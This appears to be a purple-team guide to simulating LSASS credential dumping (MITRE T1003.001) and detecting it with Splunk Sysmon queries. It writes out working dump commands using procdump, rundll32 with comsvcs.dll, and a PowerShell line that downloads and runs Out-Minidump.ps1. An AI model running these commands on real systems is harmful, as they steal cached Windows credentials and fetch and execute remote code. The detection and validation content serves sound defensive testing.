





# 🛡️ T1003.001 Attack Simulation Guide

## Test 1: ProcDump

**Method:** Sysinternals ProcDump utility

### Manual Execution
```cmd
procdump.exe -accepteula -ma lsass.exe C:\Temp\lsass.dmp
```

### Atomic Red Team
```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Confirm:$false
```

**How it works:** ProcDump creates a full memory dump of LSASS process containing all cached credentials.

---

## Test 2: Rundll32 + Comsvcs.dll

**Method:** Native Windows DLL abuse

### Manual Execution
```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass.dmp full
```

### Atomic Red Team
```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 2 -Confirm:$false
```

**How it works:** Comsvcs.dll has MiniDump function to create crash dumps. Attackers abuse it to dump LSASS without external tools.

---

## Test 8: Out-MiniDump (PowerShell)

**Method:** PowerShell script calling Win32 APIs

### MANUAL EXECUTION 
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1003.001/src/Out-Minidump.ps1' -UseBasicParsing)
Get-Process lsass | Out-Minidump

### Atomic Red Team
```powershell
Invoke-AtomicTest T1003.001 -TestNumbers 8 -Confirm:$false
```

**How it works:** Downloads PowerSploit's Out-MiniDump script from GitHub, which uses Windows API calls (MiniDumpWriteDump) to dump LSASS memory.

---

## Executions



## Detection Queries

### 1️⃣ EventCode 10 - Process Access to LSASS

##ALERTS SPl for splunk

**Purpose:** Detect any process attempting to read LSASS memory
```spl
index=sysmon sourcetype=Win10 EventCode=10 TargetImage="*lsass.exe"
| stats count by SourceImage, SourceUser, GrantedAccess
| where GrantedAccess IN ("0x1010", "0x1410", "0x1438")
```

### 2️⃣ EventCode 11 - Dump File Creation
**Purpose:** Detect .dmp file creation by suspicious processes
```spl
index=sysmon sourcetype=Win10 EventCode=11 TargetFilename="*.dmp"
| search Image IN ("*rundll32.exe", "*powershell.exe", "*procdump*.exe")
| table _time, Image, TargetFilename, User
```

### 3️⃣ EventCode 1 - Suspicious Process Execution
**Purpose:** Detect rundll32 calling comsvcs.dll
```spl
index=sysmon sourcetype=Win10 EventCode=1 Image="*rundll32.exe" CommandLine="*comsvcs.dll*MiniDump*"
| table _time, CommandLine, User, ParentImage
```

---

## Validation Steps
1. **Check Splunk** 

2. **Expected Results:**
   - ✅ EventCode 10 alert fires (SourceImage = rundll32.exe)
   - ✅ EventCode 11 alert fires (TargetFilename = lsass.dmp)
   - ✅ EventCode 1 shows rundll32 execution

3. **If Defender blocks:**
   - EventCode 10 ✅ (still see access attempt)
   - EventCode 11 ❌ (file creation blocked)

---

## Splunk Dashboard



